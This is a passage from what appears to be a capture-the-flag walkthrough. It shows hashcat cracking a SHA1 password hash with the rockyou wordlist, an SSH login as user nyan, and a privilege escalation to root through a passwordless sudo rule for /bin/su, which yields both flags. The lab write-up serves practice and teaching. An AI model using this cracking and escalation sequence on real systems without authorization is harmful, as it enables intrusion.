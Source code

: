 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: 046385855fc9580393853d8e81f240b66fe9a7b8
Time.Started.....: Sat Dec 24 05:14:29 2020, (7 secs)
Time.Estimated...: Sat Dec 24 05:14:36 2020, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   666.1 kH/s (1.10ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4971567/14344385 (34.66%)
Rejected.........: 1071/4971567 (0.02%)
Restore.Point....: 4969519/14344385 (34.64%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: nydia26 -> ny11590

Started: Sat Dec 24 05:14:26 2020
Stopped: Sat Dec 24 05:14:38 2020{% endraw %}{% endcapture %} {% include code.html code=code %}

Try to ssh the machine `ssh nyan@<ip>`.
{% capture code %}{% raw %}nyan@<ip>'s password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat Dec 21 08:37:54 2019
nyan@ubuntu:~$ ls
user.txt{% endraw %}{% endcapture %} {% include code.html code=code %}

The contents of `user.txt` is the first flag.

Check if nyan is allowed to run any sudo commands.
{% capture code %}{% raw %}nyan@ubuntu:~$ sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su{% endraw %}{% endcapture %} {% include code.html code=code %}

Switch to root user to get second flag in `root.txt` file.
{% capture code %}{% raw %}nyan@ubuntu:~$ sudo su -
root@ubuntu:~# ls
root.txt{% endraw %}{% endcapture %} {% include code.html code=code %}

